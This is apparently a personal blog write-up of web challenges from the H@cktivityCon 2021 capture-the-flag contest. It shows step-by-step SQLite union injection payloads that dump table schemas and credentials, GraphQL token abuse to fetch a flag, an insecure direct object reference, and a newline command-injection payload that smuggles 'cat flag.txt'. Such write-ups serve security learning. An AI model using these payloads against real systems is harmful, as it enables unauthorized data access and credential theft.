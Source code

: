 ```yaml
---
layout: post
title:  H@cktivityCon CTF 2021  Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/Hackcon/abu_index.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/Hackcon/abu_index.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>H@cktivityCon CTF 2021  Web Challenges Writeup </h1>  
 <!--more-->

Hello All iam abdelhameed ghazy and this is my writeup for some web challenges in H@cktivityCon CTF 2021 

First challenge : All Backed Up    Level: Medium      sqlite_injection and graphql 
Desc : Grandma always knew how to make tried-and-true baked goods, and these recipes prove it!


<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_index.png" /> 

as we see there is four blogs about cakes so let's see any one of them
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_somecake.png" /> 


as we see there is a endpoint called post and then there is another endpoint had the name of cake so let's try sqli 
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake' or 1=1--
after i tried this it gives the first cake : 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli1.png" /> 

so let's know the numbers of columns by ' order by 1 --
after incresing the number we got that we had  6 columns so let's use union to dump data 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,2,3,4,5,6 --

the column 2,4,6  are reflected into the page so we will dump using them 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_column.png" /> 


first i used http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sqlite_version(),3,4,5,6 --

to make sure that's a sqlite so i tried to dump the columns from database by this 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 1,1 --
i found a table called posts so i ignored it and then i used this 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 2,1--
to get the second table (users)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_users.png" /> 
as you see there is a table called users had username,password  so let's dump the creds 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,username,3,password,5,6 from users--

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_creds.png" /> 
as you see we got the creds 

username :congon4tor   password : n8bboB!3%vDwiASVgKhv

and there is's no user else 

so i stuck here but after review requests i found a request sent to graphql and i didn't like it :( 

so i used graphql map : (it's  not a scanner i just use it to help me write my quiers eaisly)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphqlmap.png" /> 

python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json

and then i used dump_new command to view graphql contents 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_dump.png" /> 

as we see we had intersting stuff here 

Mutation called  (authenticateUser) took two parameters username and password both of them is string
Query called flag
token used in auth 

at first i tried to call flag qurey by this : {flag}
but it returned  :(error authenticating user: invalid token)

so by logic we need to use authenticateUser mutation to get token then used it to auth then call the flag query 

but for sorry i didn't know how to use it :( 
so i started searching how to use mutation and queries and Alhamdullah I got it 

first we will get the token by this command : mutation{authenticateUser(username:"congon4tor" password:"n8bboB!3%vDwiASVgKhv"){token}}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_token.png" /> 

nice !!! Now We got the token but didn't know how to use it to call the flag maybe it's a authorization header or we will send it in graphql parameter but after i switch on my browser tabs i found the github repo for graphqlmap it provide us to sent custom headers 
by this option : --headers

so, i exit graphql map and use this new command : 
python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json  --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNvbmdvbjR0b3IiLCJleHAiOjE2MzIyMzI1NjEsImlhdCI6MTYzMjA1OTc2MSwiaXNzIjoiQ29uZ29uNHRvciJ9.WhAB-0xq54d4w4WT0cW2Ev8iozY-ASk0pQi2WGHDv-8"}'

and then called flag query {flag}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_flag.png" /> 


Second  challenge : OPA Secrets    Level: Hard      Flask Code Review , Idor  
Desc : OPA! Check out our new secret management service

After you read : i see it's a not hard challenge but any way let's see 

after signup & login we found that it takes secret 

opa_index 

while browsing i found the github repo that had the source code ;) 

so as always i see the changes in the files and no thing intersted either admin password and it's not working also xD 
but i found secret from admin called Flag and it's id 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/oba_flagid.png" /> 

so let's see app.py  , as we see there is a endpoint called getValue that calls function called get_secret() 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/oba_apppy.png" /> 

it sends post request to a locally host and get the secret so i tried secret id that we got and i got the flag xD

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/oba_flag.png" /> 


also we had an medium command injection  challenge that use sha256 command but  filters all special chars  (;&|) so i bypassed it by  : /n so my payload was 
flag.txt%0Acat flag.txt

